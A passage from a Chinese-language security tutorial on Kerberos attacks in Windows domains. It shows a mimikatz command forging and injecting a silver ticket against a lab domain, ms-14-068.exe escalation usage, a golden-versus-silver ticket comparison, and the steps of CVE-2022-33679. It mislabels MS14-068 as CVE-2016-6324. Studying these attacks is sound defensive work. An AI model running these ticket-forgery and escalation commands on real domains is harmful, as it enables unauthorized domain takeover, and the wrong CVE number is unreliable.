   
伪造票据  
> Kerberos::golden /domain:starseaseclab.com /sid:S-1-5-21-1719736279-3906200060-616816393 /target:win-dc.starseaseclab.com /service:cifs /rc4:161cff084477fe596a5db81874498a24 /user:user1 /ptt //伪造银票注入内存  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqFsr7kkSvzzklGDRuTGVlOQiaPC6s0sMPzWyx48ZtAuRB4HGZGgeSWj4w/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
  
利用MS14-068(CVE-2016-6324)  
  
域内用户提升至域控  
  
条件 ：  
- • 域内用户名以及hash  
  
- • sid值  
  
- • 域名  
  
- • 域控ip  
  
```
 ms-14-068.exe -u   域用户@域名  -p 域用户密码 -s 域用户sid -d 域控ip kerberos::ptc "票据"   //将票据注入内存
```  
#### 黄金票据和白银票据的区别  
```
访问权限不同：Golden Ticket：伪造TGT，可以获取任何Kerberos服务权限Silver Ticket：伪造TGS，只能访问指定的服务加密方式不同：Golden Ticket由Kerberos的Hash加密Silver Ticket由服务账号（通常为计算机账户）Hash加密认证流程不同：Golden Ticket的利用过程需要访问域控，Silver Ticket不需要
```  
#### CVE-2022-33679  
  
攻击的过程分为下面几个步骤  
1. 1. 攻击者发送一个没有预授权的 AS-REQ 请求 RC4-MD4 密钥加密。如果用户不需要预授权，KDC 将发回一个 AS-REP，其中包含使用 RC4-MD4 加密的会话密钥等。  
  
1. 2. 根据加密数据的长度，计算出加密密钥开始前的0x15字节，只要总长度就可以猜到。可能需要发送适当长的主机地址来填充 ASN1 编码数据，以便将密钥对齐到合适的位置。  
  
1. 3. 根据计算出的ASN1数据和加密后的KDC-REP生成密钥流的前0x2D字节（密文中前0x18字节全为0）。  
  
1. 4. 使用密钥流加密 PA-ENC-TIMESTAMP 预认证缓冲区，如果仅使用 KerberosTime，则大小将恰好为 0x15 字节，即带有初始填充的 0x2D。  
  
1. 5. 在新的 AS-REQ 中发送加密的时间戳以验证密钥流是否正确。  
  
如果将客户端和 KDC 降级为使用 RC4-MD4，攻击者可以让 KDC 使用 RC4-MD4 会话密钥作为初始 TGT，它只有 40 位的熵，并且在关联的票证过期之前实现暴力破解，可为该用户发出任意服务票证的 TGS 请求。  
  
攻击图解  
  
在请求TGT的第一阶段爆破第一个字节的图解  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqF3AGphEPIgIarM2UrFVGyaFOh892sQY4J2usG4lLoic2hf6D8iaTVJMxg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
  
获取最后一个字节的过程图解  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LcDCh1DkSW53fzFRsOynfqFXUQoJomCUcXF9qoSuHOD0Hv7WAia4h8jAoaHOlLNe0rXotRfEBXCh1A/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1 "null")  
  
  
CVE提交者的POC显示已删除，github上披露的EXP已经没了。  
  
